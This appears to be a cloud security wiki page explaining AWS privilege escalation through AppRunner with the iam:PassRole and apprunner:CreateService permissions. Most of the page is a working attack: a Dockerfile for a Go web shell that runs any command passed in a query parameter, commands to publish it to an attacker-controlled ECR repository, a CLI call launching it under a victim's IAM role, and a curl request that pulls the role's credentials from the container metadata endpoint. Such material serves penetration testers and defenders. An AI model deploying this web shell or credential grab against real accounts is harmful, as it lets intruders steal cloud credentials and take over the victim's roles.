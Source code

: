 # AWS - AppRunner Privesc

## AppRunner

### `iam:PassRole`, `apprunner:CreateService`

An attacker with these permissions can create an AppRunner service with an attached IAM role, potentially escalating privileges by accessing the role's credentials.

The attacker first creates a Dockerfile that serves as a web shell to execute arbitrary commands on the AppRunner container.

```Dockerfile
FROM golang:1.24-bookworm
WORKDIR /app
RUN apt-get update && apt-get install -y ca-certificates curl
RUN cat <<'EOF' > main.go
package main

import (
	"fmt"
	"net/http"
	"os/exec"
)

func main() {
	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		command := exec.Command("sh", "-c", r.URL.Query().Get("cmd"))
		output, err := command.CombinedOutput()
		if err != nil {
			fmt.Fprint(w, err.Error(), output)
			return
		}

		fmt.Fprint(w, string(output))
	})
	http.ListenAndServe("0.0.0.0:3000", nil)
}
EOF
RUN go mod init test && go build -o main .
EXPOSE 3000
CMD ["./main"]
```

Then, push this image to an ECR repository.
By pushing the image to a public repository in an AWS account controlled by the attacker, privilege escalation is possible even if the victim's account doesn't have permissions to manipulate ECR.

```sh
IMAGE_NAME=public.ecr.aws/<alias>/<namespace>/<repo-name>:latest
docker buildx build --platform linux/amd64 -t $IMAGE_NAME .
aws ecr-public get-login-password | docker login --username AWS --password-stdin public.ecr.aws
docker push $IMAGE_NAME
docker logout public.ecr.aws
```

Next, the attacker creates an AppRunner service configured with this web shell image and the IAM Role they want to exploit.

```bash
aws apprunner create-service \
    --service-name malicious-service \
    --source-configuration '{
        "ImageRepository": {
            "ImageIdentifier": "public.ecr.aws/<alias>/<namespace>/<repo-name>:latest",
            "ImageRepositoryType": "ECR_PUBLIC",
            "ImageConfiguration": { "Port": "3000" }
        }
    }' \
    --instance-configuration '{"InstanceRoleArn": "arn:aws:iam::123456789012:role/AppRunnerRole"}' \
    --query Service.ServiceUrl
```

After waiting for the service creation to complete, use the web shell to retrieve container credentials and obtain the permissions of the IAM Role attached to AppRunner.

```sh
curl 'https://<service-url>/?cmd=curl+http%3A%2F%2F169.254.170.2%24AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```

**Potential Impact:** Direct privilege escalation to any IAM role that can be attached to AppRunner services.

